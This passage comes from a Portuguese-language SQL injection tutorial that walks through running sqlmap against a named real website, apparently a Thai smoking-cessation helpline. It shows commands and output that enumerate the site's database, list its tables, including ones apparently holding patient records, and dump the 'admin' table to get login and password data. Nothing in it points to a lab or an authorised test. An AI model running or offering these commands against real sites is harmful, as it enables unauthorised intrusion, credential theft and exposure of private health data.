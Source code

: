 
Ele vai te retornar algo como isto:

```
web application technology: Apache 2, PHP 5.2.17
back-end DBMS: MySQL 5.0.11
current database:    'admin_nd'
```

Vamos agora enumerar as tabelas do banco admin_nd:

```
$ python sqlmap.py -u http://www.thailandquitline.or.th/news.php?id=1 -D admin_nd --tables -v0
```

Obs: Perceba que com -D eu especifico a database, e --tables dizemos ao SQLMap que queremos que ele nos mostre as tabelas contidas na database admin_nd;

Ele vai nos retornar algo como isto:

```
web application technology: Apache 2, PHP 5.2.17
back-end DBMS: MySQL 5.0.11
Database: admin_nd
[20 tables]
+--------------------------+
| admin              
| admin_module  
| callback_patientschronic
| callback_recipients     
| captcha
| contact
| contact_data
| customer     
| email           
| news           
| refer            
| result_patientschronic
| result_recipients      
| u_refer_case     
| u_refer_follow    
| u_refer_member
| uquit                
| uquit_email      
| urefer_email     
| vdo                 
+--------------------------+
```

De ante das tabelas enumeradas, cabe agora observar a tabela que possivelmente armazena
informações de login e senha. Neste caso a mais suspeita é a "admin". Vamos então
visualizar o conteúdo dela:

```
$ python sqlmap.py -u http://www.thailandquitline.or.th/news.php?id=1 -D admin_nd -T admin --dump -v0
```
